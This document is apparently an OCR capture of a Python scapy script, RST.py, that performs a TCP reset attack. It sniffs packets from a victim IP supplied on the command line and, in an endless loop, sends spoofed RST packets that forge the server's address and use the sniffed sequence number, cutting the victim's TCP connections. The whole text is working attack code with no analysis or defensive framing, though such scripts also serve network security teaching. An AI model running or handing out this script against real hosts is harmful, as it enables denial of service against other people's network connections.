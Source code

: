 \begin{verbatim}
#!/usr/bin/python3
#running command: python RST.py victimIP

import sys  #for command line argument
import time
from random import randint
from scapy.all import *
from scapy.layers.inet import *
import scapy

victim_ip = sys.argv[1]

def sendRST(pkt):
    IPLayer = IP(dst=victim_ip, #victim's ip
        src=pkt[IP].dst)        #server's ip from sniffed packet
    
    TCPLayer = TCP(flags="R",   #reset flag
        seq=pkt[TCP].ack,       #expected sequence number
        dport=pkt[TCP].sport,   #victim's port number
        sport=pkt[TCP].dport)   #server's port number
    
    spoofpkt = IPLayer/TCPLayer

    send(spoofpkt, verbose=2)

    print(pkt.summary())

    print("IP source = " + str(pkt[IP].src))        #victim ip
    print("Port source = " + str(pkt[TCP].sport))   #victim port
    print("IP dest = " + str(pkt[IP].dst))          #server ip
    print("Port dest = " + str(pkt[TCP].dport))     #server port
    print("ACK = " + str(pkt[TCP].ack))             #ack number

    print()


    print(spoofpkt.summary())

    print("Spoofed IP source = " + str(spoofpkt[IP].src))
    print("Spoofed Port source = " + str(spoofpkt[TCP].sport))
    print("Spoofed IP dest = " + str(spoofpkt[IP].dst))
    print("Spoofed Port dest = " + str(spoofpkt[TCP].dport))
    print("Spoofed SEQ = " + str(spoofpkt[TCP].seq))   

    
    print()    
    print()

    time.sleep(randint(1, 2)) #random sleep
                              #otherwise too much traffic


while 1:
    pkt = sniff(filter="tcp and src host " + victim_ip, 
                              #victim's packet
        prn=sendRST,          #spoofing function
        store=0, 
        count=1)
    
\end{verbatim}